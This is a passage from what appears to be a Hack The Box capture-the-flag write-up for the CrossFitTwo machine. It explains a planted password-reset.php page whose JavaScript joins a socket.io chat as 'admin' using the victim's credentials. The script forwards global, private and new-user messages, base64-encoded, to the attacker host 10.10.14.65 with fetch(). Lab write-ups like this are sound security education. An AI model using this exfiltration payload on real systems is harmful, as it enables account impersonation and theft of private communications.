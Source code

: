 Checking for this module on the webserver we can retrieve the full source code of it.

[![socket_io_js](/img/crossfittwo/socket_io_js.png)](/img/crossfittwo/socket_io_js.png)

The plan now is to make it seem the admin user joined the chat and listen on the message channels if we get some other user messaging us. We embed this functionality in the `password-reset.php` file, since this is where david get's redirected to. We also base64 encode the response to avoid possible bad characters.

`password-reset.php`
```php
<html><head><script type="text/javascript" src="http://crossfit-club.htb/socket.io/socket.io.js"></script>
<script type="text/javascript">
     var socket = io("http://crossfit-club.htb", { forceNew: false, transports: ["polling"], withCredentials: true });
     socket.on("recv_global", data => {
         fetch('http://10.10.14.65/global?b64=' + btoa(JSON.stringify(data)));
     });
     socket.on("private_recv", data => {
         fetch('http://10.10.14.65/privat?b64=' + btoa(JSON.stringify(data)));
     });
     socket.on("new_user", data => {
         fetch('http://10.10.14.65/newuser?b64=' + btoa(JSON.stringify(data)));
     });
     socket.emit('user_join', {
           username: "admin"
     });
   </script>
   </head>
</html>
```
